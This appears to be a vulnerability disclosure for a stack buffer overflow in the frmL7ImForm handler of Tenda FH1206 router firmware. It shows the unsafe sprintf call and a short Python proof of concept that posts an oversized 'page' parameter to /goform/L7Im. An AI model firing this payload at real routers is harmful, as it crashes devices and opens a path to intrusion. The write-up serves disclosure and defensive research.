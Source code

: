 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2905.html

## Affected version

FH1206 V02.03.01.35

## Vulnerability details

The Tenda FH1206 V02.03.01.35 has a stack overflow vulnerability located in the `frmL7ImForm` function. This function accepts the `page` parameter from a POST request. The statement `sprintf(v10, "im.asp?page=%s", v3);` leads to a buffer overflow. The user-supplied `page` can exceed the capacity of the `v10` array, thus triggering this security vulnerability.

![image-20240731133253828](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240731133253828.png)

## POC

```python
import requests

ip = "192.168.84.101"
url = "http://" + ip + "/goform/L7Im"
payload = b"a"*1000

data = {"page": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240801202321673](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240801202321673.png)